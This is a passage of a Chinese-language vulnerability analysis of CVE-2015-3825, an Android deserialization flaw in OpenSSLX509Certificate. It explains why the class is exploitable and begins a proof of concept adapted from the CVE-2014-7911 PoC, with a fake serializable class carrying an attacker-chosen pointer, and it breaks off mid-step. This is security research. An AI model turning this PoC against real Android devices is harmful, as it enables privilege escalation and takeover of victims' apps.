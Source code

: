 # OpenSSLX509Certificate反序列化漏洞（CVE-2015-3825）成因分析

**没羽@阿里移动安全**

0x00 序
=====

序列化 (Serialization)，是将对象的状态信息转换为可以存储或传输的形式的过程。在序列化期间，对象将其当前状态写入到临时或持久性存储区。使用者可以通过从存储区中读取或反序列化对象的状态，重新创建该对象。

Android也有许多场景使用序列化进行数据传递，如App间/内的对象传递、Binder通信的数据传递等等，一般涉及跨进程、跨权限。序列化/反序列也是程序/接口的一个输入，存储区的内容或序列是可被随机填充，如果使用时验证不完整，也会导致安全漏洞。在Android系统中，可通过序列化/反序列化漏洞实现App拒绝服务、提升权限等攻击。

0x01 漏洞成因
=====

这个Android序列化漏洞(CVE-2015-3825)，影响Android4.3及Android5.1版本，也就是Jelly Bean、KitKat、棒棒糖和Android M预览版1，波及55%的Android设备。可在受影响的设备上提权到system权限，也就意味着攻击者可以通过替换目标应用的apk接管受害者手机上的任意应用。这个漏洞是由的IBM安全团队Or Peles和Roee Hay在USENIX 2015大会上的议题《ONE CLASS TO RULE THEM ALL 0-DAY DESERIALIZATION VULNERABILITIES IN ANDROID》【1】。

2.1 PoC构造
---------

Paper作者没放出Exploit也没放出PoC，根据这篇paper我们可以知道，漏洞出在OpenSSLX509Certificate（全包名路径为com.android.org.conscrypt.OpenSSLX509Certificate）类，OpenSSLX509Certificate类满足：

1）OpenSSLX509Certificate是可序列化的，因为他继承自可序列化的Certificate类；  
2）它有一个finalize()方法，并且有调用native的方法（libjavascrypto.so中），参数field mContext，long型（实际为指针类型）；  
3）OpenSSLX509Certificate也没有实现特定的反序列化方法（readObject和readResolve）；

其中mContext就是要找的可被攻击控制的指针。

我对CVE-2014-7911的POC进行了改造，首先定义类`com.android.org.conscrypt.ApenSSLX509Certificate`，如下：

```
public class ApenSSLX509Certificate implements Serializable {
    //private static final long serialVersionUID = -5454153458060784251L;//android4.4.2 emulator
    private static final long serialVersionUID = -8550350185014308538L;//android 5.1.1 emulator
    public final long mContext;
    ApenSSLX509Certificate(long ctx) {
        mContext = ctx;
    }
}

```

注意包名为com.android.org.conscrypt，然后在同包名下创建一个MainActivity.java，对ApenSSLX509Certificate进行调用：

```
com.android.org.conscrypt.ApenSSLX509Certificate evilProxy = new com.android.org.conscrypt.ApenSSLX509Certificate(0x7f7f7f7f7f7f7f7fL);
b.putSerializable("eatthis", evilProxy);

```

和CVE-2014-7911 PoC一样，向“android.os.IUserManager”的service发送请求前，修改类名：
